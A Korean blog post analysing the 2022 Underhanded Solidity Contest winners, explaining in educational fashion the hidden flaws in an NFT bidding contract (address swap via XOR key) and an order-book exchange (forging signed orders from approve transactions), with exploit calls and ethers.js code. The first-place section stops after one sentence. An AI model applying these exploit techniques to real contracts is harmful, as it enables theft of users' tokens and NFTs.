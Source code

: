```yaml
---
layout: post
title: "Underhanded Solidity"
date: 2022-08-11
img: park.jpg # Add image post (optional)
description: # Add post description (optional)
tag: [solidity]
---
```


"언더핸드(underhanded) 솔리디티 컨테스트"는 솔리디티 개발팀이 주최하는 스마트 컨트랙트 보안취약점 컨테스트입니다.  "언더핸드"라는 단어는 
겉으로 보기에는 전혀 문제 없지만 그 이면에 보안취약점을 가지고 있는 스마트 컨트랙트를 의미합니다. 참가자들이 제출한 컨트랙트들을 심사하여 가장 
"언더핸드", 즉 알아차리기 어렵지만 알고보면 정말 단순한 취약점을 지닌 컨트랙트 상위 3개를 골라 시상합니다. 

올해 2022년 수상작들은 솔리디티 [블로그][blog]에 공개되어 있습니다. 하나씩 살펴보도록 하겠습니다. 

## 3위 Michael Zhu
이 [컨트랙트][3rd]는 ERC20 토큰으로 ERC721 표준의 NFT 토큰을 구매하는 컨트랙트입니다. ["solmate"][solmate] 라는 컨트랙트 라이브러리를 활용하여 작성되어 있습니다.
특정 NFT를 구매하길 원하는 입찰자(bidder)는 `createBid`를 호출하여 원하는 NFT 토큰과 가격을 제시합니다. 이 때 NFT의 가격은 지정된 ERC20 토큰으로 지불합니다.
생성된 입찰건은 다음과 같은 mapping 타입의 장부에 저장됩니다.

<font size="1">
{% highlight javascript %}
mapping(address => mapping(uint160 => mapping(uint256 => uint256))) bids;
{% endhighlight %}
</font>


조금 복잡한 구조를 지니고 있지만 입찰자의 계정을 key로 하고, 두 토큰 컨트랙트의 주소를 XOR 연산한 uint160의 값, 그리고 NFT토큰 ID와 제시한 가격을 저장합니다. 해당되는 NFT 토큰을 가진 사람은 bids에 제시된 가격을 보고 입찰에 응하게 되고 `acceptBid`를 호출하여 제시된 수량의 ERC20 토큰을 수령하고 NFT 소유권을 넘겨 주게 됩니다. 

ERC20 토큰을 전송할 때 위임 전송 transferFrom을 사용합니다. 이미 입찰자는 approve를 통하여 일정 수량을 전송하도록 위임했을 것입니다. 마찬가지로 NFT 토큰 역시 
transferFrom을 사용합니다. 그런데 이 두 함수는 모두 동일한 이름과 동일한 파라미터들을 가지고 있습니다.

<font size="1">
{% highlight javascript %}
transferFrom(address _from, address _to, uint256 _value)
transferFrom(address _from, address _to, uint256 _tokenId)
{% endhighlight %}
</font>

공격자 A는 이를 이용하여 입찰자 B가 소유한 NFT를 훔칠 수 있습니다. 입찰자가 생성한 입찰 건을 사용하여, 공격자는 실제로 입찰자가 구매를 원하는 NFT가 없다고 해도 
다음과 같이 `acceptBid`를 호출하는 것이 가능합니다.

<font size="1">
{% highlight javascript %}
acceptBid(
    B,      // bidder
    ERC20,  // ERC721 contract
    420,    // ERC721 token ID
    ERC721, // ERC20 contract
    666     // price
)
{% endhighlight %}
</font>

그런데 ERC721 토큰 컨트랙트와 ERC20 토큰 컨트랙트 주소를 바꾸어서 호출하는 것입니다. price에는 B가 소유한 NFT 토큰 아이디를 넣습니다. transferFrom은 동일하므로 오류없이 실행이 될 것입니다. 그러나 결과는 전혀 다릅니다. 컨트랙트 주소가 바뀌었기 때문에 다음 코드는 NFT 아이디 666번을 A에게 전송하게 됩니다.

<font size="1">
{% highlight javascript %}
erc20Token.safeTransferFrom(B, A, 666);
{% endhighlight %}
</font>


그리고 반대로 B에게는 420 wei에 해당하는 ERC20 토큰만이 전송됩니다. 원래 B는 자신이 입찰한 NFT를 기대하고 있겠지만 오히려 NFT 666번을 도난당하고 소량의 ERC20 토큰만을 
수령하게 되는 것입니다.

<font size="1">
{% highlight javascript %}
erc721Token.transferFrom(A, B, 420);
{% endhighlight %}
</font>


각 토큰 컨트랙트 주소 자체를 파라미터로 받을 수 있도록 한 것이 문제일 수도 있고 또 스토리지를 절약하기 위해 두 컨트랙트를 XOR했는데 이 경우에 두 컨트랙트가 서로 바뀌어도 동일한 값이 나오므로 주소를 교환하여 호출하는 것이 가능했습니다.


## 2위 Santiago Palladino
Santiago Palladino는 오픈제펠린에서 잘 알려진 개발자입니다. 이것은 오더북 기반의 ERC20 토큰 판매를 간단하게 구현한 [Exchange][2nd] 컨트랙트 입니다. 오더북 기반의 토큰 판매는 온체인에서 처리되기 어렵기 때문에 오프체인에서 매수주문을 저장하고 조건이 맞으면(일부 또는 전체) 매도자가 서명을 하고 매수자가 그 데이터를 컨트랙트에 제출하는 방식으로 이루어집니다.

주문은 다음과 같은 구조체로 표현됩니다.

<font size="2">
{% highlight javascript %}
struct Order {
    address referrer;
    address token;
    uint128 rate;
    uint24 nonce;
    uint256 amount;
    uint8 orderType;
}
{% endhighlight %}
</font>

레퍼러(referrer)는 중개 수수료에 해당하고 1%를 정했습니다. 솔리디티에서는 소수점 연산이 불가능하므로 1%, 즉 0.01을 분수로 표현합니다. 
즉 분자(REFERRAL_FEE)를 100, 분모(REFERRAL_FEE_DENOMINATOR)를 10000으로 표현하여 0.0001까지 가능하도록 합니다. 

비율(rate)는 이더 당 판매되는 토큰의 수량입니다. 즉 지불한 이더에 대해 다음과 같은 수량의 토큰을 판매합니다. 여기서도 분수로 표현하기 위해 
RATE_DENOMINATOR = 2**64 를 사용합니다.

<font size="1">
{% highlight javascript %}
uint256 tokensPurchased = msg.value * order.rate / RATE_DENOMINATOR;
{% endhighlight %}
</font>
 

거래가 매칭되면 다음과 같이 토큰과 이더를 교환합니다. 여기서 `msg.sender`는 서명한 주문을 제출하는 매수인 계정이 됩니다.

<font size="2">
{% highlight javascript %}
IERC20(order.token).transferFrom(seller, msg.sender, tokensPurchased);
if (fee > 0) payable(order.referrer).transfer(fee);
payable(seller).transfer(msg.value - fee);
{% endhighlight %}
</font>


매수인은 주문정보를 Order 구조체의 각 항목들에 설정하여 오프체인에 저장합니다. 토큰 매도 체결은 이 주문을 매도인이 전자 서명함으로써 이루어집니다.
전자서명할 때는 주문정보를 컨트랙트의 `getOrderHash`라는 함수의 로직대로 해시한 후 서명합니다. 매수인은 이렇게 체결된 주문을 컨트랙트의 `executeOrder`을
호출하면서 전달합니다. 이 함수에서는 주문정보와 전자서명이 일치함을 확인하고 이상없으면 토큰과 이더를 각 거래 당사자들에게 전송합니다.

문제는 전자서명된 주문 데이터를 임의로 만들 수 있다는 것에 있습니다(사실 이것을 발견하기란 매우 어렵긴 하겠지만). 우선 정상적인 주문 데이터를 
만들겠습니다(값 자체는 중요하지 않음).


<font size="1">
{% highlight javascript %}

const referrer = "0xAd36...c9a1";
const token = "0x5FbD...0aa3";
const rate = 100;
const nonce = 0;
const amount = ethers.utils.parseEther("0.01");
const orderType = 0;

const order = [referrer, token, rate, nonce, amount, orderType];
{% endhighlight %}
</font>

이것을 컨트랙트의 `getOrderHash`에 전달하고 리턴받은 해시에 매도인이 서명을 하게 됩니다. 서명 대상이 되는 데이터는 컨트랙트 주소가 다시 포함되므로 
다음과 같은 데이터에 대한 해시를 서명한 것이 되겠습니다.

<font size="1">
{% highlight javascript %}
const packed = ethers.utils.solidityPack(
    ["address", "address", 
     "uint128", "uint24", 
     "address", "uint256", 
     "uint8"], 
    ["0xAd36...c9a1", "0x5FbD...0aa3", 
     100, 0, 
     "0x63ee...C849", "10000000000000000", 
     0]
);
{% endhighlight %}
</font>

해시 전의 encodePacked 된 데이터는 다음과 같습니다. Order 구조체의 각 항목에 해당되는 값들로 나누어서 볼 수 있습니다. 이 형태를 잘 눈여겨 보도록 합시다. 
0x63ee...c849는 Görli에 배포된 컨트랙트의 [주소][exchange]입니다. 

<font size="1">
{% highlight shell %}
ad363...c9a1
5fbdb...0aa3
00000000000000000000000000000064
000000
63ee...c849
000000...0000000002386f26fc10000
00
{% endhighlight %}
</font>

이 값을 해시한 것을 전자서명하면 다음과 같은 서명 데이터를 얻게 됩니다.

<font size="1">
{% highlight javascript %}
const orderHash = ethers.utils.keccak256(packed);
const {v,r,s} = new ethers.utils.SigningKey(sellerPrivateKey).signDigest(orderHash);

r = 0x20ee...fcb4
s = 0x6ecc...ef00
v = 28
{% endhighlight %}
</font>

만약에 이와 동일한 구조의 가짜 주문에 대해 이미 서명된 데이터를 얻을 수 있다면 매도인의 의사와 상관없이 토큰을 가져갈 수 있을 것입니다. 하지만 그게 가능할까요? 어떻게 서명이 포함된 가짜 주문을 만들 수 있을까요?

토큰 판매는 Exchange 컨트랙트가 토큰을 전송할 수 있도록 위임하는 approve 과정(매도인이 수행)이 필요합니다. approve 트랜잭션 해시를 이더스캔에서 조회하면 
전자 서명을 포함하여 더 많은 정보를 얻을 수 있습니다. 이 정보들을 사용하여 트랜잭션을 다시 구성해보겠습니다. 아래는 트랜잭션 [0x33fe...][txhash]의 
정보를 재구성한 것입니다.

<font size="1">
{% highlight javascript %}
const apporveTx = {
        type: 2,
        nonce: 8, 
        to: "0x1160e6cB390B8D756AEbF52eda0D74cf97272749",
        value: "0x0",         
        maxPriorityFeePerGas: "0x9502f900",
        maxFeePerGas: "0x4a817c800",
        gasLimit: "0xb73a",
        data: "0x095ea7b300000000000000000000000063ee5864f7fa0becfcee56093d654120e7e3c8490000000000000000000000000000000000000000000422ca8b0a00a425000000",
        chainId: 5,
}
{% endhighlight %}
</font>

여기서 to 는 토큰 컨트랙트이고 data 항목에 들어간 것이 바로 approve 호출로, Exchange(0x63ee...)에 전체 수량을 전송할 수 있도록 위임한 것을 알 수 있습니다. 
이것을 다시 RLP serialize하면 다음 결과를 얻게 됩니다.

<font size="1">
{% highlight javascript %}
ethers.utils.serializeTransaction(apporveTx).slice(2);

02f86d0508849502f9008504a817c80082b73a941160e6cb390b8d756aebf52eda0d74cf9727274980b844095ea7b300000000000000000000000063ee5864f7fa0becfcee56093d654120e7e3c8490000000000000000000000000000000000000000000422ca8b0a00a425000000c0
{% endhighlight %}
</font>

이렇게 인코딩된 것을 Order 구조체의 타입에 맞추어 다시 쓸 수 있습니다.

<font size="1">
{% highlight shell %}
02f86d0508849502f9008504a817c80082b73a94
1160e6cB390B8D756AEbF52eda0D74cf97272749
80b844095ea7b3000000000000000000 // rate
000000
63ee5864f7fa0becfcee56093d654120e7e3c849
0000000000000000000000000000000000000000000422ca8b0a00a425000000                                                                 
c0
{% endhighlight %}
</font>

이렇게 나누어서 보면 놀랍게도 앞서 Order 구조체의 각 필드 타입들과 잘 일치하는 것을 알게 됩니다. 토큰 컨트랙트 주소 0x1160...2749도 정확히 일치합니다. 
교환비율인 rate는 매우 큰 값으로 매수인에게 유리하게 작용합니다. 적은 이더를 가지고도 많은 수량의 토큰을 받을 수 있으니까 말입니다. 맨마지막은 c0는 
orderType인데 0이나 1의 값을 가져야 하나 컨트랙트 로직에서는 0이 아니면 전부 "PARTIAL" 판매로 간주하므로 전혀 문제 되지 않습니다.

더 재미있는 것은 이미 이 데이터에 대한 서명(r,s,v)까지도 확보했다는 것입니다. 다시 말해서 매도인의 approve 트랜잭션을 그대로 가져다가 서명된 주문 
데이터로 그대로 사용할 수 있다는 의미가 되겠습니다.  

하지만 항상 모든 approve 트랜잭션이 Order 구조체와 완벽하게 일치하는 것은 아닌 것 같습니다. maxFeePerGas 값이 작아서 잘 매칭이 안되는 경우가 있었습니다. 
또 비율(rate)가 지나치게 높으므로 허용 매도수량보다 크면 거래가 되지 않을 것입니다. 주문에 대한 서명을 수행하면 approve의 서명 값과 정확히 일치함을 알 수 있습니다.

<font size="1">
{% highlight javascript %}
const packed = ethers.utils.solidityPack(
    ["address", "address", 
     "uint128", "uint24", 
     "address", "uint256", 
     "uint8"], 
    ["0x02f86...3a94", "0x1160...2749", 
     "0x80b8...0000", "0x000000", 
     "0x63ee...C849", "0x0000...0000422ca8b0a00a425000000", 
     "0xc0"]
    );

const orderHash = ethers.utils.keccak256(packed);
const { v, r, s } = new ethers.utils.SigningKey(sellerPk).signDigest(orderHash);

27
0x4e99...c57f
0x46c8...df35
{% endhighlight %}
</font>

결과적으로 토큰 홀더들의 approve 트랜잭션 중에 이렇게 일치하는 트랜잭션을 골라서 가짜 주문을 만들 수 있고 또 서명 값도 동일하므로 이것을 전송하여 
마치 정상적인 주문이 체결되는 것처럼 할 수 있습니다.


## 1위 Tynan Richards

이 [컨트랙트][1st]는 정말 단순하면서도 솔리디티 언어 자체의 특징을 이용했는데 알고보면 1위를 할만 하다는 생각이 듭니다. 







[blog]: https://blog.soliditylang.org/2022/04/09/announcing-the-underhanded-contest-winners-2022/
[solmate]: https://github.com/transmissions11/solmate
[3rd]: https://github.com/ethereum/solidity-underhanded-contest/tree/master/2022/submissions_2022/submission17_MichaelZhu
[2nd]: https://github.com/ethereum/solidity-underhanded-contest/tree/master/2022/submissions_2022/submission10_SantiagoPalladino
[1st]: https://github.com/ethereum/solidity-underhanded-contest/tree/master/2022/submissions_2022/submission9_TynanRichards
[exchange]: https://goerli.etherscan.io/address/0x63ee5864f7fa0becfcee56093d654120e7e3c849
[txhash]: https://goerli.etherscan.io/tx/0x33fe4bcc1231956806b8c454b4b4422aec64da237f69adf22d81bbc0534e37da
